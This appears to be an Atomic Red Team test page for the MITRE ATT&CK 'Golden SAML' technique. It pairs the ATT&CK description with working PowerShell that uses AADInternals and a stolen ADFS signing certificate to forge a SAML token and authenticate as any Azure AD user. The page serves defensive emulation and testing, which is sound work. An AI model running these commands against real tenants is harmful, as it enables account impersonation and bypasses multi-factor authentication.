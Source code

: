 # T1606.002 - Forge Web Credentials: SAML token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1606/002)
<blockquote>

An adversary may forge SAML tokens with any permissions claims and lifetimes if they possess a valid SAML token-signing certificate.(Citation: Microsoft SolarWinds Steps) The default lifetime of a SAML token is one hour, but the validity period can be specified in the <code>NotOnOrAfter</code> value of the <code>conditions ...</code> element in a token. This value can be changed using the <code>AccessTokenLifetime</code> in a <code>LifetimeTokenPolicy</code>.(Citation: Microsoft SAML Token Lifetimes) Forged SAML tokens enable adversaries to authenticate across services that use SAML 2.0 as an SSO (single sign-on) mechanism.(Citation: Cyberark Golden SAML)

An adversary may utilize [Private Keys](https://attack.mitre.org/techniques/T1552/004) to compromise an organization's token-signing certificate to create forged SAML tokens. If the adversary has sufficient permissions to establish a new federation trust with their own Active Directory Federation Services (AD FS) server, they may instead generate their own trusted token-signing certificate.(Citation: Microsoft SolarWinds Customer Guidance) This differs from [Steal Application Access Token](https://attack.mitre.org/techniques/T1528) and other similar behaviors in that the tokens are new and forged by the adversary, rather than stolen or intercepted from legitimate users.

An adversary may gain administrative Entra ID privileges if a SAML token is forged which claims to represent a highly privileged account. This may lead to [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550), which may bypass multi-factor and other authentication protection mechanisms.(Citation: Microsoft SolarWinds Customer Guidance)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Golden SAML](#atomic-test-1---golden-saml)


<br/>

## Atomic Test #1 - Golden SAML
Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof). 
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| certificate_path | Token signing certificate path. See T1552.004 to export it | path | .&#92;ADFS_signing.pfx|
| immutable_id | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | string | aehgdqBTZV50DKQZmNJ8mg==|
| issuer_uri | Issuer URI of the ADFS service | string | http://contoso.com/adfs/services/trust/|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```




#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
